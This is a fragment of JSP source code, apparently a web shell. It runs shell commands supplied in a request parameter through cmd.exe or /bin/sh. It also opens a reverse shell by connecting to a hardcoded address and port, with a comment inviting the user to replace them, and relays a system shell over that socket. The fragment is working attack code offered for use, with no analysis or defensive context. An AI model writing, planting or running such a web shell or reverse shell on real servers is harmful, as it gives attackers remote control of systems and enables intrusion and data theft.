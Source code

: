   ```jsp
          Process p;
          if (shellPath.equals("cmd.exe"))
              p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
          else
              p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
          OutputStream os = p.getOutputStream();
          InputStream in = p.getInputStream();
          DataInputStream dis = new DataInputStream(in);
          String disr = dis.readLine();
          while ( disr != null ) {
              out.println(disr);
              disr = dis.readLine();
          }
      }
      // TCP PORT PART
      class StreamConnector extends Thread
      {
          InputStream wz;
          OutputStream yr;
          StreamConnector( InputStream wz, OutputStream yr ) {
              this.wz = wz;
              this.yr = yr;
          }
          public void run()
          {
              BufferedReader r  = null;
              BufferedWriter w = null;
              try
              {
                  r  = new BufferedReader(new InputStreamReader(wz));
                  w = new BufferedWriter(new OutputStreamWriter(yr));
                  char buffer[] = new char[8192];
                  int length;
                  while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                  {
                      w.write( buffer, 0, length );
                      w.flush();
                  }
              } catch( Exception e ){}
              try
              {
                  if( r != null )
                      r.close();
                  if( w != null )
                      w.close();
              } catch( Exception e ){}
          }
      }
   
      try {
          Socket socket = new Socket( "192.168.2.7", 1234 ); // Replace with wanted ip and port
          Process process = Runtime.getRuntime().exec( shellPath );
          new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
          new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
          out.println("port opened on " + socket);
       } catch( Exception e ) {}
  %>
  </pre>
  </body>
  </html>
  ```
